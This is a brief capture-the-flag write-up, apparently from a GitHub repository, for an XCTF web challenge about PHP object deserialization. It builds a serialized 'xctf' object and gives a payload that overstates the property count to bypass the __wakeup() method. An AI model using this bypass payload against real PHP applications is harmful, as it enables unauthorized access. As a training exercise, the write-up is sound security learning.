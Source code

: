 # Challenge: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4821&page=1

<img width="251" alt="class xctf{" src="https://user-images.githubusercontent.com/48151790/126886407-0a5cb22f-2aad-40b3-8740-a0ff92c49081.png">

. Hint: ?code=object serialize

. Create serialize of object xctf

<img width="725" alt="Screen Shot 2021-07-25 at 10 14 34" src="https://user-images.githubusercontent.com/48151790/126886492-bf176acd-b496-4d5a-a2a1-e1f709ea2b27.png">

=> object serialize: O:4:"xctf":1:{s:4:"flag";s:3:"111";

. Function __wakeup() of class xctf will run before object unserialize

=> Bypass: O:4:"xctf":2:{s:4:"flag";s:3:"111";}

<img width="766" alt="Screen Shot 2021-07-25 at 10 20 51" src="https://user-images.githubusercontent.com/48151790/126886593-2d2cb901-5ab9-4312-a2e2-cb5a26595483.png">
